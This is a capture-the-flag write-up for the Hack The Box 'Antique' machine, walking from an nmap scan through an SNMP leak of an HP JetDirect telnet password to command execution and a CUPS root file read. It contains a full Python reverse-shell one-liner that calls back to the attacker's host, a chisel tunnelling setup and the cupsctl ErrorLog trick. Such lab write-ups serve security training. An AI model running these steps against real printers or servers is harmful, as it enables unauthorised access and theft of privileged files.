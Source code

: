 # Antique

URL: https://app.hackthebox.com/machines/Antique

Level: Easy

Date 16 Oct 2021

## Walkthrough

- [Enumeration](#enumeration)
- [User flag](#user-flag)
- [Privesc](#privesc)

# Enumeration

## NMAP

Let's start with a basic nmap scan:

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:00 2021 as: nmap -T4 -p- -oN 01_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

# Nmap done at Sat Oct 16 15:00:30 2021 -- 1 IP address (1 host up) scanned in 29.54 seconds
```

We got just one single port. Let's check again with -A: 

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:59 2021 as: nmap -T4 -p23 -A -oN 02_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270:
|     JetDirect
|     Password:
|   NULL:
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.91%I=7%D=10/16%Time=616ACD1F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   42.05 ms 10.10.14.1
2   43.92 ms 10.10.11.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 16 15:04:14 2021 -- 1 IP address (1 host up) scanned in 195.95 seconds
```

It seems we are facing a printer device (HP JetDirect).

Let's check again if SNMP is returning other detail, according to this:

https://www.exploit-db.com/exploits/22319

```
root@kali:/opt/htb/Antique# snmpwalk -v1 -cpublic 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

So, our string is:

```
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Let's try to decode:

```
root@kali:/opt/htb/Antique# sed -e 's/\ //g' 4_string
504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135
```

```
root@kali:/opt/htb/Antique# python
Python 2.7.18 (default, Sep 24 2021, 09:39:51)
[GCC 10.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135".decode("hex")
'P@ssw0rd@123!!123\x13\x91q\x81\x92"2Rbs\x03\x133CSs\x83\x94$4\x95\x05\x15Eu\x86\x16WGW\x98(8i\t\x19IY\x81\x03\x10a\x11\x11A\x15\x11\x91"\x121&\x13\x011\x13A5'
>>> quit
Use quit() or Ctrl-D (i.e. EOF) to exit
>>>
```

It seems password is `P@ssw0rd@123!!123` (after we have some garbage).

We can also use this resource:

https://string-functions.com/hex-string.aspx

We try telnet with such password and we are in!

```
root@kali:/opt/htb/Antique# telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

## User-flag

```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
>
```

```
> exec cat user.txt
3e10a6020aa944847af1d5d96cee1673
>
```

We try to obtain a reverse shell:

```
> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Privesc

Through `netstat -natlp` we discover that port 631/TCP is listening only on localhost.

We want to access web interface of CUPS service, we use `chisel` (since we have no SSH access).

On our attacker machine:

```
root@kali:/opt/tools/chisel# ./chisel_1.7.6_linux_amd64 server -p 8000 -reverse
2021/10/16 16:09:38 server: Reverse tunnelling enabled
2021/10/16 16:09:38 server: Fingerprint grujYiVy8ha00e/5A6PPV7IFz6LbuzQXD8r799Wt                                                                                                              o4M=
2021/10/16 16:09:38 server: Listening on http://0.0.0.0:8000
```

On victim (after transfer `chisel` binary through python web server):

```
lp@antique:/tmp$  ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
 ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
2021/10/16 14:09:51 client: Connecting to ws://10.10.14.14:8000
```

From now, every connection made on port 631/TCP on our machine is forwarded to port 631 on target.

We found that CUPS version is 1.6.1.

According to this:

https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/

We should be able to retrieve files content, even with root privileges.

On target machine:

```
cupsctl ErrorLog="/root/root.txt"
```

On attacker machine:

```
root@kali:/opt/htb/Antique# curl http://localhost:631/admin/log/error_log
b07549ac8dc04884e51ba5bc0c9992ac
```
